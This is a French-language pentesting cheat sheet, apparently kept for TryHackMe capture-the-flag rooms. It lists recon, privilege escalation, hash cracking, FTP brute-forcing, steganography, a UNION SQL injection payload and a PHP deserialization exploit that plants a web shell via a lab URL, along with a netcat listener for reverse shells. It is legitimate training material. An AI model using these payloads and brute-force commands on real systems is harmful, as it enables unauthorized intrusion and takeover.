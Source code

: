# TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

​					gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
​					gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt

**Port : **nmap -sC -sV -A -oN nmap.log $IP



Si rien ne marche ajouter l'option -Pn au début de nmap



## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#tools)]



Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le port**

```
nc -lvp 4242
```



## Escalation Priviledge

​	[Liste des exploit avec permission](https://gtfobins.github.io/)

```bash
Find all SUID files: "fichier executable avec une autre perm que ton user"
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 2>>/dev/null
```



```
all sudo avaible
sudo -l
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



## Hash

haiti -e 42f749ade7f9e195bf475f37a44cafcb
https://crackstation.net/

hashcat -m XXX(look man) -a 0 HASH.hash /opt/wordlists/rockyou.txt

JohnTheReapper

## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to


## osint 

```bash
exiftool WindowsXP.jpg  
```

## Steganographie

```
mogrify -format jpg important.png

steghide extract –sf image.jpeg
stegseek hellp.jpg /opt/wordlist/common.tx
```



## Windows SMB

https://tryhackme.com/room/metasploitintro

smbclient -L $IP 
smbclien -NL $IP

nmblookup -A $IP 



msfconsole
Search   *smb/netbios*
use *auxiliary/scanner/netbios/nbname*

## FTP

medusa -h $IP -U user.txt -P ./password.txt  -M ftp
**hydra -L username.txt -P password.txt ftp://$IP**

Mfsconsole :

```bash
auxiliary(scanner/ftp/ftp_login)

PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt   
```

Montrer fichier caché sur ftp :

**dir -la**

*

## Unserialize PHP

Si il y a une fct 

**unserialize($variable)** dans le code cherche comment ecrire dans debug une version serialisé dun payload de reverse shell en php

tu serialize

```php
<?php
class FormSubmit
{
   public $form_file = 'test.php';
   public $message = '<?php system($_GET["cmd"]); ?>';
}
print serialize(new FormSubmit);
?>
```

tu execute `php code.php`

tu navigue vers 

http://10.10.33.139/index.php?debug=O:10:%22FormSubmit%22:2:s:9:%22form_file%22;s:8:%22test.php%22;s:7:%22message%22;s:30:%22%3C?php%20system($_GET[%22cmd%22]);%20?%3E%22;}

Puis vers la page que tu as créé

http://10.10.33.139/test.php?cmd=INSSERT_TA_COMMANDE
